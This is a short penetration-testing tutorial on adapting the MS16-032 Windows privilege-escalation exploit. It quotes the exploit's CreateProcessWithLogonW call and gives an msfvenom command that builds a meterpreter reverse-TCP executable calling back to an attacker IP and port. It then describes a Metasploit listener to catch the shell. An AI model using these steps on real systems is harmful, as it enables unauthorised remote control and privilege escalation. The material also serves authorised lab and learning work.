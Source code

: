 # how to modify exploits - overview

Step 1: Understand what the exploit does

The first step is understanding what the exploit does. That doesn't mean you need to understand the actual inner workings and mechanics of the exploit - although would be nice - but you need to have at least a high-level understanding what the exploit does. In many cases, an exploit tries to executes arbitrary code spawn a cmd window, creates a new administrator account or connects back to your listener, spawning you a remote shell.

If we analyze the MS16-032 (https://www.exploit-db.com/exploits/39719) exploit closely, we clearly see it's written in Powershell.

At the end of the exploit, we see the following code:

      # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Windows\System32\cmd.exe", "",
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)

This part tells us, after succesfully exploiting the MS16-032 vulnerability, the exploit executes C:\Windows\System32.cmd.exe. This would work great if we have physical access to the victim host, but as we run this exploit remotely via meterpreter, spawning a local extra instance of cmd.exe gives us no root privileges via meterpreter. We found our issue!

Now we need to modify the exploit to allow us to elevate our privileges. The easiest way to do this is by replacing C:\Windows\System32\cmd.exe with a a malicious payload .exe you created yourself with msfvenom, allowing to open a new meterpeter system shell.
Step 2: Create your own malicious payload

To start building your own malicious payload, open a new terminal and execute the following command:

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.95 LPORT=5555 -f exe > zeroday.exe

Let's breakdown the above command:

    msvenom (stand-alone metasploit payload generator)
    -p windows/meterpreter/reverse_tcp (specifies the type of payload you want to use in your malicious executable)
    LHOST=10.10.15.95 (your IP adress you want the victim machine to connect back to)
    LPORT=5555 (your local port you want the victim machine to connect back to)
    -f exe > zeroday.exe (specifies the type of excutable you want to generate and the output file)

Next, we start a metasploit listener with the same payload, LHOST and LPORT as you created your payload with. When our payload is executed on the victim host, a meterpreter shell with connect to our listener.
